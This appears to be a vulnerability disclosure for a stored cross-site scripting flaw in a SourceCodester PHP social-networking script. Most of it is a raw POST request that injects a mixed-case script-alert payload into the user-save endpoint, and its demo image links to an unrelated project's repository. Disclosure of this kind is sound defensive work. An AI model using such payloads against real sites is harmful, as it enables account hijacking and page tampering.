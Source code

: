 # simple-social-networking-site-instagram v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /sns/classes/Users.php?f=save

Vulnerability location: /sns/classes/Users.php?f=save, firstname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /sns/classes/Users.php?f=save HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------2778781845921125101691173168
Content-Length: 1036
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/sns/admin/?page=user/manage_user
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="id"


-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="firstname"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="middlename"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="lastname"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="username"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="password"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="type"

2
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------2778781845921125101691173168--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)